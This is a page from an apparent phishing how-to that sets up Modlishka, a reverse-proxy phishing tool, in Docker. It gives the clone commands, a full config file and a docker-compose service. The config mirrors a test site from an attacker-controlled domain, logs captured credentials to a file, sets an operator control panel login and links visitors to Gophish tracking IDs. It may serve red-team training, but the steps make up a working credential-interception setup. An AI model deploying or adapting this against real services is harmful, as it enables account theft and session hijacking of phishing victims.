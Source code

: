 +++
title = "Modlishka"
weight = 65
+++

### Modlishka

Modlishka is an amazing tool that can mirror a website on the fly, rewriting links to ensure the site functions. This allows us to essentially MitM connections to our targetted service from a domain we control.

Lets get a checkout of Modlishka and get things setup to be run in docker.

```bash
mkdir ~/Desktop/op/docker/modlishka
cd ~/Desktop/op/docker/modlishka
mkdir modlishka-data
touch modlishka-data/config.json
git clone https://github.com/Stage2Sec/Modlishka.git
cd Modlishka
cp extra/docker/* .
```

Modlishka can take command line areguments or a config file. We are opting to use the config file. Lets add the following to `~/Desktop/op/docker/modlishka/modlishka-data/config.json`

```json
{
  "proxyDomain": "modlishka.docker",
  "target": "http://testphp.vulnweb.com/",
  "trackingCookie": "iamadumbcookie",
  "trackingParam": "rid",
  "controlCreds": "phisherman:phisherpass",
  "controlURL": "livewell",
  "terminateRedirectUrl": "",
  "terminateTriggers": "/nowhere",
  "allowSecureCookies": true,
  "listeningAddress": "0.0.0.0",
  "targetResources": "",
  "jsRules": "",
  "jsReflectParam": "reflect",
  "proxyAddress": "",
  "forceHTTPS": false,
  "forceHTTP": false,
  "dynamicMode": false,
  "debug": true,
  "logPostOnly": false,
  "disableSecurity": false,
  "log": "/data/creds.log",
  "plugins": "all",
  "cert": "",
  "certKey": "",
  "certPool": "",
  "rules": "",
  "credParams": ""
}
```

The `trackingParam` value is what modlishka uses to determine what visits belong to what users, we'll map this to `rid` since that is what Gophish uses by default.

Now we can add Modlishka to our docker compose services.

```yml
  modlishka:
    build:
      context: "modlishka/Modlishka/"
    entrypoint: /bin/proxy
    command: -config /data/config.json
    container_name: modlishka
    environment:
      - VIRTUAL_HOST=modlishka.docker
    volumes:
      - "./modlishka/modlishka-data:/data"
```

Lets test it out.

```bash
cd ~/Desktop/op/docker
sudo docker compose up
```

Now open [http://modlishka.docker/](http://modlishka.docker/). We should see the accunetix test site being hosted from our fake domain.

![Modlishka Accunetix Test Site](/static/how-to-phishing/modlishka-accunetix-test-site.png)